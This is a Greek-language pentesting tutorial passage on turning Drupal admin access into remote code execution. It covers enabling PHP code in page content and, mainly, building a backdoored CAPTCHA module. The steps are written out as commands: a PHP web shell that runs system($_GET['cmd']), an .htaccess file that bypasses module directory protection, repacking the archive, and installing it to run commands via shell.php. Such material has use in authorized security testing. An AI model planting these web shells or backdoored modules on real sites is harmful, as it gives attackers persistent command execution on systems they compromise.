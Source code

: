 1. Κατεβάστε την πιο πρόσφατη έκδοση του module από την ιστοσελίδα του Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Αφού κατεβεί, πηγαίνετε στο **`Administration`** > **`Reports`** > **`Available updates`**.
3. Κάντε κλικ στο **`Browse`**, επιλέξτε το αρχείο από τον φάκελο που το κατεβάσατε και στη συνέχεια κάντε κλικ στο **`Install`**.
4. Αφού εγκατασταθεί το module, μπορούμε να κάνουμε κλικ στο **`Content`** και **να δημιουργήσουμε μια νέα βασική σελίδα**, παρόμοια με το πώς κάναμε στο παράδειγμα του Drupal 7. Και πάλι, βεβαιωθείτε ότι **έχετε επιλέξει `PHP code` από το αναπτυσσόμενο μενού `Text format`**.

## Backdoored Module

{% hint style="warning" %}
Στις τρέχουσες εκδόσεις δεν είναι πλέον δυνατή η εγκατάσταση πρόσθετων μόνο με πρόσβαση στο διαδίκτυο μετά την προεπιλεγμένη εγκατάσταση.
{% endhint %}

Ένα backdoored module μπορεί να δημιουργηθεί **προσθέτοντας ένα shell σε ένα υπάρχον module**. Τα modules μπορούν να βρεθούν στην ιστοσελίδα drupal.org. Ας επιλέξουμε ένα module όπως το [CAPTCHA](https://www.drupal.org/project/captcha). Κάντε κύλιση προς τα κάτω και αντιγράψτε τον σύνδεσμο για το tar.gz [αρχείο](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Κατεβάστε το αρχείο και εξαγάγετε το περιεχόμενό του.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Δημιουργήστε ένα **PHP web shell** με τα περιεχόμενα:
```php
<?php
system($_GET["cmd"]);
?>
```
* Στη συνέχεια, πρέπει να δημιουργήσουμε ένα **`.htaccess`** αρχείο για να αποκτήσουμε πρόσβαση στον φάκελο. Αυτό είναι απαραίτητο καθώς το Drupal αρνείται την άμεση πρόσβαση στον φάκελο **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Η παραπάνω ρύθμιση θα εφαρμόσει κανόνες για τον φάκελο / όταν ζητάμε ένα αρχείο στον φάκελο /modules. Αντιγράψτε και τα δύο αυτά αρχεία στον φάκελο captcha και δημιουργήστε ένα αρχείο.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Υποθέτοντας ότι έχουμε **διοικητική πρόσβαση** στον ιστότοπο, κάντε κλικ στο **`Manage`** και στη συνέχεια στο **`Extend`** στη γραμμή πλοήγησης. Στη συνέχεια, κάντε κλικ στο κουμπί **`+ Install new module`** και θα μεταφερθούμε στη σελίδα εγκατάστασης, όπως `http://drupal-site.local/admin/modules/install`. Περιηγηθείτε στο αρχείο Captcha με backdoor και κάντε κλικ στο **`Install`**.
* Μόλις η εγκατάσταση ολοκληρωθεί με επιτυχία, περιηγηθείτε στο **`/modules/captcha/shell.php`** για να εκτελέσετε εντολές.
